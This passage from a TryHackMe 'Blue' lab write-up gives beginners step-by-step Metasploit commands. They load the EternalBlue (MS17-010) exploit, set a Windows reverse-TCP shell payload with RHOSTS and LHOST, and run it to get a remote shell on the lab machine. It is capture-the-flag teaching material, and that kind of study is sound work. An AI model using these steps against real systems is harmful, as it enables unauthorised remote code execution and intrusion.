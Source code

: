 3. *There are no more questions to explcitly answer in this section. I will start with some notes regarding instructions seen on TryHackMe. At the end of this section, make sure to mark the last two steps as done.*

        NOTE: TryHackMe suggests the usage of the command `set payload windows/x64/shell/reverse_tcp`
    
        In general, payloads help us establish exploits In particular, this payload creates a remote-desktop in the target machine using a call-back from Windows to Metasploit.
    
        Specifying the payload is VERY important, and it could be why your exploit may be repeatedly failing. I will discuss this further soon.

    * Your next move is to type `run` to begin the scanner.

        - ![Now we have proof that Blue is vulnerable to MS17-10: Remote Code Execution!](C:\Users\Frankie\Desktop\THM-Blue-Writeup-in-Layman-s-Terms\Task_2_Image_2.jpg)

    * Now, let’s figure out how to run our exploit now (remember that these are the modules whose names start with `exploit`).

        > As *m0rn1ngstr* explains, an exploit is: “an exploit module executes a sequence of commands to target a specific vulnerability found in a system or application. An exploit module takes advantage of a vulnerability to provide access to the target system. Exploit modules include buffer overflow, code injection, and web application exploits.”

        - Type `use 2` or `use exploit/windows/smb/ms17_010_eternalblue` into your Metasploit shell.

        - Then, type `show options` (or just `options`) to pull up the settings for the exploit. Here, we will need to set `RHOSTS` to our target IP like we did before.

            - To do this, type: `set RHOSTS [TARGET_IP]`

        - In an effort to avoid running into issues with running the exploit, we will also set the eternalblue module’s `LHOST` option.
        
            > LHOST refers to the IP of your machine, which will be used to create a reverse connection to your machine after the exploit runs successfully.

        - To set our `LHOST` option, it’s the same setup as setting the `RHOST` option, but instead of using the target IP (the IP of the web-based VM we are running from the TryHackMe site), we will be using the private IP seen in the OpenVPN Connect profile screen.

            - ![You can see this after scrolling down in the OpenVPN window that shows your active connection, as squared in black in the following image.](C:\Users\Frankie\Desktop\THM-Blue-Writeup-in-Layman-s-Terms\Task_2_Image_3.jpg)

                - So, the final command to type into the Metasploit shell is set `LHOST [Your_Private_IP]`.

    * FINALLY, to complete this task and run the exploit, type `run` or `exploit`.

        - If this is successful, you should appear in the windows shell now! CONGRATULATIONS!

        > If the exploit fails, you should first attempt to troubleshoot by running the exploit again. If that doesn't work, you should restart your Blue machine on the TryHackMe site. Don't worry, I had this issue plenty of times. If you find there are repeated failures despite following all the above directions correctly (like myself for 3 days legitimately), follow the steps below.
        
        * We are going to try and change the `payload` again. First, in the Metasploit shell, type `show payloads`.
